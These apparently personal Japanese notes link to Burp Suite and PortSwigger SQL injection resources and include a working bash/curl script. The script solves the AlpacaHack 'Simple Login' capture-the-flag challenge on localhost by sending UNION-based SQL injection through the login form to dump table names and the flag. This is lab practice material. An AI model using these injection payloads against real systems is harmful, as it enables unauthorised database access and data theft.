 # Burp Suite
# Windows
- Burp Suite Community Edition Windows (x64) をダウンロード
- https://www.leon-tec.co.jp/blog/10174/

# SQL injection
- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://portswigger.net/web-security/sql-injection/union-attacks

# shell sciprt
**sql_injection.sh**
```bash
#!/bin/bash
# (Simple Login)[https://alpacahack.com/ctfs/round-2/challenges/simple-login]
URL="http://127.0.0.1:3000/login"
# simple-login には 64 文字以内の制限がある
QUERIES=(
'SELECT @@version,NULL'
'SELECT table_name,NULL FROM information_schema.tables'
'SELECT value,NULL FROM flag'
)
for q in "${QUERIES[@]}"; do
    echo "[+] $q"
    curl -i -X POST \
        --data-urlencode "username=\\" \
        --data-urlencode "password= UNION ${q}-- " \
        $URL 2>/dev/null |
        awk '/^Set-Cookie:/{print $2}' | cut -d'=' -f 2 | sed 's/;//'
    echo
done
```
